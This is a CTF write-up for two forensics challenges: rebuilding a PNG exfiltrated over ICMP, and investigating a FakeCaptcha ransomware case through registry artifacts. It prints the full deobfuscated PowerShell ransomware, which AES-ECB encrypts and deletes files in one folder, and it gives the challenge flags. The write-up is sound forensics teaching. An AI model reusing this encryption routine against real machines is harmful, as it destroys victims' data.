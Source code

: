 ```yaml
---
title: "IDEH v6 Write Up"
date: 2025-04-13 10:00:00 +0800
categories: [CTF Write ups]
tags: [Forensics, Malware]
description: Write Up of the forensics challenges i made for the IDEH v6 CTF
image: ../images/ideh6/1.png
---
```

# pingwin

![](../images/ideh6/2.png)

In this challenge, we have a pcap file. Let's analyze it in Wireshark.

![](../images/ideh6/4.png)

We have two protocols in the traffic: DNS and ICMP, which might indicate possible data exfiltration. Let's investigate further.

![](../images/ideh6/5.png)

There's nothing suspicious in the DNS traffic—just queries to an invalid domain, `notgoogle.com`, with no data being transferred.

Now, let's move on to the ICMP traffic.

![](../images/ideh6/6.png)

The first ICMP (ping) request contains some data. In the first request, the data is a PNG file signature, indicating that an image is being exfiltrated through the protocol.

Let's use the `tshark` command line to extract all data chunks and reconstruct the image file:

```
tshark -r pingwin.pcapng -Y "icmp && ip.src == 192.168.42.173" -T fields -e data.data | tr '\n' '\0' | xxd -r -p > solve.png
```

And here is the image being exfiltrated:


![](../images/ideh6/7.png)

FLAG : `IDEH{h0l4_qu3_p4s4_4l_kh4w4}`

# captcha

![](../images/ideh6/3.png)

In this challenge, we have an encrypted PDF file and a ZIP file containing a disk image.

![](../images/ideh6/8.png)

Based on the challenge description, the victim had their PDF encrypted after verifying a captcha on a website.

The captcha verification seems unusual, as a regular captcha verifier doesn't ask the user to open the Windows Run dialog (Windows key + R).
This attack is known as FakeCaptcha, and it is widely spread across the web.
Most of these attacks involve phishing the user into running a pre-copied payload via the Windows Run dialog.
The script is typically an infostealer malware, but in this case, it's ransomware, so let's investigate further.

Opening the disk image with an imaging tool (I used FTK Imager), we can see the user's files.

![](../images/ideh6/9.png)

Great! In Windows, the history of commands used in the Run dialog is stored in the registry at the following path:
`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU`

Now, let's locate the user registry hive. The user registry is located in the root folder of the user’s directory and is called `ntuser.dat`

 ![](../images/ideh6/10.png)

Let's export this file from the image. To view its contents, we need **Registry Explorer**, a great tool from Eric Zimmerman.

After opening the registry, navigate to the path:
`\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU` to find the history of commands

![](../images/ideh6/11.png)

The malicious payload makes a web request to retrieve the actual payload from Pastebin. Visiting the URL, we can see an obfuscated PowerShell command. We need to deobfuscate it to understand its behavior.

![](../images/ideh6/12.png)

Here is the deobfuscated version:

```bash
$folderPath = [System.IO.Path]::Combine([System.Environment]::GetFolderPath("Desktop"), "random_folder_to_not_damage_the_entire_system")
if (-not (Test-Path $folderPath)) {
    Write-Host "Folder not found. Exiting."
    exit
}
$computerName = [System.Environment]::MachineName
if ($computerName.Length -lt 16) {
    $key = $computerName + ('9' * (16 - $computerName.Length))
} else {
    $key = $computerName.Substring(0, 16)
}
Write-Host "Key: $key"
$keyBytes = [System.Text.Encoding]::UTF8.GetBytes($key)
Write-Host "Key Bytes: $($keyBytes -join ', ')"
$aesAlg = [System.Security.Cryptography.Aes]::Create()
$aesAlg.Key = $keyBytes
$aesAlg.Mode = [System.Security.Cryptography.CipherMode]::ECB
$aesAlg.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
Get-ChildItem -Path $folderPath -File | ForEach-Object {
    $filePath = $_.FullName
    $encryptor = $aesAlg.CreateEncryptor($aesAlg.Key, $null)
    $cryptoStream = New-Object System.Security.Cryptography.CryptoStream(
        [System.IO.File]::OpenWrite($filePath + ".enc"),
        $encryptor,
        [System.Security.Cryptography.CryptoStreamMode]::Write
    )
    $inputFileStream = [System.IO.File]::OpenRead($filePath)
    $inputFileStream.CopyTo($cryptoStream)
    $cryptoStream.FlushFinalBlock()
    $cryptoStream.Close()
    $inputFileStream.Close()
    Remove-Item $filePath -Force
}
```

This PowerShell script encrypts files in a "Desktop" folder **random_folder_to_not_damage_the_entire_system** using AES-ECB with a key derived from the computer name.

- If the computer name is shorter than 16 characters, it pads it with the character `9`.

- If the computer name is longer, it truncates it to 16 characters.

- The script appends `.enc` to the encrypted files and deletes the originals.

Now, we need the computer name to construct the encryption key. The computer name is stored in the Windows registry, specifically at `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\ComputerName\ComputerName`

Let's retrieve the system machine hive.

In the disk image, the registry hive is located in the main folder, before the user folder.

![](../images/ideh6/13.png)

We open it again using **Registry Explorer** and navigate to the **ComputerName** path.

![](../images/ideh6/14.png)

The computer name is `DESKTOP-QELPTBL`

Since the computer name is 15 characters long, the script will pad it with the character `9` to make it a 16-character string.

Thus, the encryption key is `DESKTOP-QELPTBL9`

Now, let's decrypt the PDF file using a custom Python script.

```py
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
import os

def dec_file(encrypted, decrypted, key):
    with open(encrypted, 'rb') as f:
        ciphertext = f.read()
    cipher = AES.new(key, AES.MODE_ECB)
    dec_data = unpad(cipher.decrypt(ciphertext), AES.block_size)
    with open(decrypted, 'wb') as f:
        f.write(dec_data)
    print(f"decrypted and saved as {decrypted}")

key = b"DESKTOP-QELPTBL9"
encrypted = 'flag.pdf.enc'
decrypted = 'flag.pdf'
dec_file(encrypted, decrypted, key)
```

...and voilà, we got the PDF back:

![](../images/ideh6/15.png)

FLAG : `IDEH{D1g174l_F0r3n51c_M4573r}`

